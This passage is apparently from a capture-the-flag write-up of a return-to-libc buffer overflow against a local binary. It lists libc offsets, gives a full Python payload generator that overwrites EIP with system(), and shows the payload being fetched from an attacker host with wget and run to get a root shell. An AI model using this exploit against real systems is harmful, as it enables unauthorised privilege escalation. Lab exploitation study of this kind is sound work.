

Here are the important notes:

- libc base is `0xb7e19000` when loaded into `/home/ayush/.binary/rop` without ASLR/PIE
- libc offset for the function `system()` is `0x0003ada0`
- libc offset for the function `exit()` is `0x0002e9d0`
- libc offset for the string `/bin/sh` is `0x0015ba0b`

With this, the following payload generator can be written in Python:

```python
import struct

# offsets of system, exit and /bin/sh
libc_base_addr = 0xb7e19000
system_offset  = 0x0003ada0
exit_offset    = 0x0002e9d0
binsh_offset   = 0x0015ba0b

# calculate offsets
system_addr = struct.pack("<I", libc_base_addr + system_offset)
exit_addr   = struct.pack("<I", libc_base_addr + exit_offset)
binsh_addr  = struct.pack("<I", libc_base_addr + binsh_offset)

# create the payload
buf  = b'A' * 48   # buffer
buf += b'B' * 4    # ebp
buf += system_addr # eip
buf += exit_addr
buf += binsh_addr

# store the payload
with open('payload', 'wb') as f:
  f.write(buf)
```

Next view the payload to make sure there are no bad bytes:

-  `\n` ( `0x0A`) or NULL (`0x00`)


Looks good. Next download the payload to the target and execute it:

```bash
cd /tmp
wget http://10.10.14.23:7777/payload
/home/ayush/.binary/rop $(cat payload)
```



And thats `root`! 

